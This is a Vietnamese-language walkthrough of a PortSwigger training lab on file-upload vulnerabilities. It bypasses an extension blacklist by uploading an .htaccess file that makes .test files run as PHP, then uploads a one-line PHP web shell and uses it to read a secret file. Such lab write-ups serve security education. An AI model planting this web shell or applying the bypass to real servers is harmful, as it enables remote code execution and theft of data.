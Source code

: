 ## 1. Thông tin bài lab
- Tên lab: **Web shell upload via extension blacklist bypass**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

![img1](./img/lab1/img1.png)

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

![img2](./img/lab1/img2.png)

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên _test.php_ với nội dung `<?php phpinfo(); ?>` và upload lên server.
- Không thể upload file .php lên server

![img3](./img/lab4/img1.png)

- Ở đây, ta sử dụng file **.htaccsess** để thay đổi config trong nội bộ thư mục chứa file đó và các thư mục con cho phép server xử lý các file theo mong muốn của ta. Sau đó upload file chứa mã khai thác theo config của ta để thực hiện RCE.

**Kiểm tra giả thuyết**
- Ta upload file **.htaccess** cấu hình cho server xử lý các file có đuôi **.test** xử lý như một file **.php**

![img4](./img/lab4/img2.png)

- File **.htaccess** đã được upload thành công.

![img5](./img/lab4/img3.png)

- Sau đó, ta upload một file có đuôi **.test** chữa mã PHP để thử xem liệu nó có thể thực thi mã PHP hay không?
- Ta có thể thấy file **.test** đã được thực thi. Vậy khi ta upload file **.test** thì có thể thực hiện RCE.

![img6](./img/lab4/img4.png)
![img7](./img/lab4/img5.png)

## 3. Tiến hành khai thác
- Upload file **shell.test** để thực hiện đọc tệp tin bí mật với nội dung: `<?php echo system($_GET['x']) ?>`

![img8](./img/lab4/img6.png)

- Truyền tham số *'x'* để đọc nội dung tệp tin bí mật `x=cat%20/home/carlos/secret`

![img9](./img/lab4/img7.png)
